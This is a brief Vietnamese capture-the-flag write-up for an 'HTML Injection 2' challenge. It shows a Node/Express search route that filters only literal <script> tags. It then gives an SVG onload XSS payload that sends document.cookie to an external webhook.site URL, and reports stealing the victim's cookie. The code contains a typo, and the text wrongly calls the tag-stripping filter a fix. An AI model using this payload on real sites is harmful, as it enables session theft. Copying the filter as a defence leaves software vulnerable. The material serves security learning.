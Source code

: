 # HTML Injection 2

# Thử thách về lỗi bảo mật HTML Injection

# Mục tiêu: Đọc note của nạn nhân
# Cách giải quyết:
đây là một lỗi bảo mật HTML Injection, có thể được khai thác để thực hiện tấn công XSS (Cross-Site Scripting). Để giải quyết vấn đề này, ta cần lọc bỏ các thẻ `<script>` trong chuỗi tìm kiếm.


Code lv2:
```
router.get('/search', function (req, res, next) {
    // Sử dụng regex để replace <script> tag
    // Flag g: dùng để match tất cả ký tự trong mẫu tìm kiếm
    // Flag i: case insensitve không phân biệt chữ hoa chữ thường
    sanitized_q = req.query.q.replace(/<script>|<\/script>/gi, "");
    html = 'Your search - <b>' + sani<tized_q + '</b> - did not match any notes.<br><br>'
    res.send(html);
});
```
- Tìm kiếm với từ khóa: `<script>alert('XSS')</script>`
- Kết quả trả về: `Your search - <b>alert('XSS')</b> - did not match any notes.<br><br>.` 
- Kết quả trả về không có thẻ `<script>` nên không bị lỗi XSS   

Playload test
```
<svg/onload=fetch('https://webhook.site/3a6cea0c-0c4b-4528-a54e-421553192587?data='+document.cookie)>
```

# Kết quả trả về:
đã lấy được cookie của nạn nhân.ß
<img src='./img/Screenshot 2025-08-10 at 21.12.19.png'>